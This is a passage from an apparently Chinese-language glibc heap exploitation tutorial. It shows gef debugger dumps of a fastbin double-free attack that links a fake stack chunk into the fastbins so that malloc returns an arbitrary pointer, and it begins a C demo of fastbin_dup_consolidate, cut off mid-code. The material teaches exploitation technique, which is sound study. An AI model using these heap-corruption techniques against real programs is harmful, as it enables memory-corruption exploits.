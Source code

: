 ```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021 <-- chunk d
0x602010:	0x00007fffffffdc30	0x0000000000000000      <-- fd pointer
0x602020:	0x0000000000000000	0x0000000000000021 <-- chunk b [be freed]
0x602030:	0x0000000000602000	0x0000000000000000      <-- fd pointer
0x602040:	0x0000000000000000	0x0000000000000021 <-- chunk c
0x602050:	0x4343434343434343	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1
0x602070:	0x0000000000000000
gef➤  p &stack_var 
$4 = (unsigned long long *) 0x7fffffffdc38
gef➤  x/5gx 0x7fffffffdc38-0x8
0x7fffffffdc30:	0x0000000000000000	0x0000000000000021 <-- fake chunk [seems to be freed]
0x7fffffffdc40:	0x0000000000602010	0x0000000000602010      <-- fd pointer
0x7fffffffdc50:	0x0000000000602030
gef➤  heap bins fast 
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x602030, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x7fffffffdc40, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602020, size=0x0, flags=) [incorrect fastbin_index]
```
可以看到，伪造的 chunk 已经由指针链接到 fastbins 上了。之后 malloc 两次，即可将伪造的 chunk 移动到链表头部：
```
gef➤  x/15gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000021
0x602010:	0x4646464646464646	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000021
0x602030:	0x4545454545454545	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000021
0x602050:	0x4343434343434343	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000020fa1
0x602070:	0x0000000000000000
gef➤  heap bins fast 
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x7fffffffdc40, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602020, size=0x0, flags=) [incorrect fastbin_index]
```
再次 malloc，即可在 fake chunk 处分配内存：
```
gef➤  x/5gx 0x7fffffffdc38-0x8
0x7fffffffdc30:	0x0000000000000000	0x0000000000000021 <-- fake chunk 
0x7fffffffdc40:	0x4747474747474747	0x0000000000602000
0x7fffffffdc50:	0x0000000000602030
```

所以对于 fastbins，可以通过 double-free 覆盖 fastbins 的结构，来获得一个指向任意地址的指针。

#### fastbin_dup_consolidate
```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>

int main() {
    void *p1 = malloc(0x10);
    void *p2 = malloc(0x10);
    strcpy(p1, "AAAAAAAA");
    strcpy(p2, "BBBBBBBB");
    fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);

    fprintf(stderr, "Now free p1!\n");
    free(p1);

```